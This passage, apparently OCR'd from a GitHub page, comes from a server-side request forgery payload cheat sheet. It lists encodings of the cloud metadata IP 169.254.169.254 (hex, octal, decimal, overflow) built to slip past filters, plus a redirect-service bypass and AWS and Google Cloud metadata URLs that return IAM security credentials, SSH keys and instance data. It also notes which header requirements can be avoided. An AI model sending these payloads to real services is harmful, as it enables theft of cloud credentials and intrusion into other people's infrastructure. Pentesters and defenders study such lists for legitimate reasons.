 ```
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-

Alternate IP encoding

http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding

More urls to include

http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```

### [Google Cloud](ttps://cloud.google.com/compute/docs/metadata)

```
#  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id

# Google allows recursive pulls 
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true

## Google
#  Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)
http://metadata.google.internal/computeMetadata/v1beta1
```

### [Digital Ocean](https://developers.digitalocean.com/documentation/metadata/)

